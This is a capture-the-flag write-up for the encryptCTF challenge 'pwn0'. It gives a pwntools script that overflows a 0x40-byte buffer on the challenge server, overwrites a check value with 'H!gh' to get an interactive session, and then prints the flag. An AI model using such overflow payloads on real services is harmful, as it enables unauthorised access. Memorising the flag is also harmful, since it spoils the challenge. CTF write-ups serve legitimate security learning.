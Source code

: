# **pwn0**

#### tag : pwn

-----------------------------------------------

#### Description

>How's the josh?
>
>nc 104.154.106.182 1234
>
>author: codacker

-----------------------------------------------

#### Solution

```python
from pwn import *

r = remote('104.154.106.182', 1234)

r.recvuntil('?\n')
r.sendline('a' * 0x40 + 'H!gh')
r.interactive()
```
**encryptCTF{L3t5_R4!53_7h3_J05H}**
